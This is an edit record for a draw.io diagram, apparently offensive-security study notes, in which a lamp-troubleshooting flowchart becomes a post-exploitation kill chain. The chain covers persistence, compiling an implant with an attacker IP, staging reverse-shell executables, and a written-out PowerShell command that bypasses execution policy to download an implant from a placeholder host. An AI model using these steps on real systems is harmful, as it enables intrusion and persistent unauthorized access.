
This is Kill Chain Flow.drawio from brwnshoecrew/OSWE, a draw.io file, before an edit. Source tidied: cells renumbered, new cells numbered last; positions are measured from the earlier drawing's top-left corner, leaving out a move shared by most shapes. Both pictures are drawn from the tidied source at 100%, with x=0, y=0 at pixel (42, 56).

The same page after the edit.

Unchanged cells that the change refers to:
```xml
<mxCell id="10" value="Bulb&lt;br&gt;burned out?" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="1" vertex="1">
  <mxGeometry x="10" y="210" width="100" height="80" as="geometry" />
</mxCell>
```

Diff of the diagram source:
```diff
@@
-    <mxCell id="3" value="Lamp doesn't work" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="1" vertex="1">
+    <mxCell id="3" value="Initial Access Shell" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="1" vertex="1">
       <mxGeometry width="120" height="40" as="geometry" />
     </mxCell>
@@
-    <mxCell id="5" value="No" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;" parent="1" edge="1" source="6" target="7">
+    <mxCell id="5" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" edge="1" source="6" target="7">
       <mxGeometry y="10" relative="1" as="geometry" />
     </mxCell>
-    <mxCell id="6" value="Lamp&lt;br&gt;plugged in?" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="1" vertex="1">
-      <mxGeometry x="10" y="90" width="100" height="80" as="geometry" />
+    <mxCell id="6" value="Establish Medium IL Persistance" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="1" vertex="1">
+      <mxGeometry x="-25" y="90" width="170" height="100" as="geometry" />
     </mxCell>
+    <mxCell id="13" style="edgeStyle=orthogonalEdgeStyle;rounded=0;jettySize=auto;html=1;" parent="1" edge="1" source="7" target="14">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
-    <mxCell id="7" value="Plug in lamp" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="1" vertex="1">
-      <mxGeometry x="160" y="110" width="120" height="40" as="geometry" />
+    <mxCell id="7" value="Update Pers_Medium.cpp with Attacker IP and Compile" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="1" vertex="1">
+      <mxGeometry x="210" width="120" height="60" as="geometry" />
     </mxCell>
@@
-    <mxCell id="9" value="Yes" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;" parent="1" edge="1" source="10" target="12">
-      <mxGeometry y="10" relative="1" as="geometry" />
-    </mxCell>
@@
-    <mxCell id="12" value="Replace Bulb" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="1" vertex="1">
-      <mxGeometry x="160" y="230" width="120" height="40" as="geometry" />
-    </mxCell>
+    <mxCell id="14" value="Stage: reverse_9001.exe&lt;br&gt;9001.png&lt;br&gt;reverse_9002.exe&lt;br&gt;9001.png&lt;br&gt;Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="1" vertex="1">
+      <mxGeometry x="210" y="80" width="120" height="100" as="geometry" />
+    </mxCell>
+    <mxCell id="15" value="Download staged binaries and png's to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="1" vertex="1">
+      <mxGeometry x="340" y="220" width="120" height="80" as="geometry" />
+    </mxCell>
+    <mxCell id="16" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile('http://[IP]:[web server port]/Pers_Medium.exe','C:\Path\file.ext')&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="1" vertex="1">
+      <mxGeometry x="470" y="240" width="570" height="50" as="geometry" />
+    </mxCell>
+    <mxCell id="17" value="Create Medium IL Tools Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="1" vertex="1">
+      <mxGeometry x="370" width="120" height="60" as="geometry" />
+    </mxCell>
+    <mxCell id="18" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0.5;entryY=0;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="1" edge="1" source="6" target="17">
+      <mxGeometry y="10" relative="1" as="geometry">
+        <Array as="points">
+          <mxPoint x="160" y="140" />
+          <mxPoint x="160" y="-30" />
+          <mxPoint x="430" y="-30" />
+        </Array>
+      </mxGeometry>
+    </mxCell>
+    <mxCell id="19" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" edge="1" source="14" target="15">
+      <mxGeometry y="10" relative="1" as="geometry">
+        <Array as="points">
+          <mxPoint x="270" y="260" />
+        </Array>
+      </mxGeometry>
+    </mxCell>
+    <mxCell id="20" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0.5;entryY=0;entryDx=0;entryDy=0;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" edge="1" source="17" target="15">
+      <mxGeometry y="10" relative="1" as="geometry">
+        <Array as="points">
+          <mxPoint x="430" y="130" />
+          <mxPoint x="400" y="130" />
+        </Array>
+      </mxGeometry>
+    </mxCell>
```
